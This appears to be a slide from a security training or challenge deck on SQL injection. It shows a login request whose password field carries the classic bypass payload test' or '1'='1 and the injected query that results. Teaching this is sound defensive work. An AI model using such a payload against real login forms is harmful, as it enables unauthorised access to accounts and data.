

# Challenge 2: SQL injection
Username=Aidan&Password=test' or '1'='1

PHP: SELECT * FROM USERS WHERE USER='Aidan' AND PASSWORD='test' or '1'='1'
SQL: SELECT * FROM USERS WHERE USER='Aidan' AND PASSWORD='test' or '1'='1'